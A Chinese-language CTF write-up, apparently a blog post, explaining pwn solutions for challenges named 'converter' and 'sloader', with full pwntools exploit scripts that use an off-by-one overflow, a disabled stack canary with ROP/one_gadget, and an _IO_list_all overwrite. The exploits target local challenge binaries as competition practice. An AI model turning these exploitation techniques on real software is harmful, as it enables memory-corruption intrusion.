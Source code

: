 ```py
p.sendline("mod iolistall")
p.recvuntil("Write Here > ")
p.sendline(p64(0)*2+p64(io_file_addr))
p.recvuntil("$ ")
p.sendline("exit")
p.interactive()

```

## converter
converter2 和 converter 一样 盲猜拆了两道题是考配环境 在本地打的能力吧，exp 是一样的，环境不一样但是好像没啥关系   
打了俩小时出了，感觉就是个简单题，主要考察的是函数 `c32rtomb` 的特性，比如当输入转化的值不在 utf-32 范围内会返回 -1，当输入在 0~0x80 的值会原样返回这些。    
此外需要结合 `for (int i=0; utf32_hexstr[q] != 0; i++) {` 这个不对的终止条件，`utf8-bin` 数组向前溢出写 `utf32_hexstr` 数组的第三行，然后使得转化时，`utf8-bin` 数组可以填满，从而把 flag 带出来
有点像去年哈工大的 scanf 题    
### exp
```py
from pwn import*
context(arch='amd64', os='linux', log_level='debug')
p = process('./chall')
gdb.attach(p)
pause()
# utf-32 范围是 0 ~ 0x10ffff
# 0x6334336631303030
p.recvuntil("Q1: What is the code of the rocket emoji in utf32be? (hexstring)> ")
payload = ("dfdfdfdf"*22+"00000030"*3+"00000031"+"00000066"+"00000033"+"00000034"+"00000063")
p.sendline(payload)
p.recvuntil("Q2: What is the code of the fox emoji in utf32be? (hexstring)> ")
p.send("0001f34c"*31)
p.recvuntil("Q3: Guess the flag in utf32be. (hexstring)> ")
p.send("0001f34c"*31)
p.interactive()

```
## sloader
其实不难，自己实现了一个简易 loader 来 load 我们的 chall，然后一些 libc 中的函数进行了 mapping    
然后 chall 中本来有 canary 但是 got 表的 stack_chk_fail 函数导向的是 chall 里面的 `libc_mapping::sloader___stack_chk_fail`，而该函数就直接返回了    
而且 chall 和 sloader 实际上的偏移也是固定的，所以就是一个简单 ROP 可以搞定 ~     
而且发现 scanf 可以读入 \x00 ? 有点长见识了   
最后打出来用的是 one_gadget
### exp
```py
from pwn import *
import time
context(arch='amd64', os='linux', log_level='debug')
p=process(["./sloader","./chall"])

time.sleep(0.1)
# 0x14011b1
p.sendline(b"a"*32+p64(0x1404010)+p64(0x01012C630)) # try one_gadget
p.interactive()
```
